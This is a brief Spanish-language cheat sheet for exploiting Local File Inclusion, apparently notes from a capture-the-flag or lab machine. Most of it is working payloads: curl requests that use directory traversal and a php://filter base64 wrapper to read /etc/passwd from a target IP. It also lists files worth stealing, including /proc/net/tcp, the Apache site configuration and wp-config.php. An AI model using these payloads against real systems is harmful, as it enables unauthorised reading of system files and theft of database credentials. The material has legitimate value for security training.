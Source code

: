 # LFI

## Directory Path Traversal Simple

```null
curl -s -X GET 'http://10.10.11.135/image.php?img=../../../../../../../etc/passwd'
```

## Wrappers

### Codificación en base64

```null
curl -s -X GET 'http://10.10.11.135/image.php?img=php://filter/convert.base64_encode/resource=/etc/passwd' 
```

## Archivos de interés

### Interfaces

```null
/proc/net/fib_trie
```

### Puertos internos

```null
/proc/net/tcp
```

#### Conversión a decimal

```null
for port in 0016 20FB 0CEA AE9A 0035; do echo "$((0x$port))"; done
```

### Configuración Apache2

```null
/etc/apache2/sites-enabled/000-default.conf
```

### Configuración del Wordpress

```null
wp-config.php
```

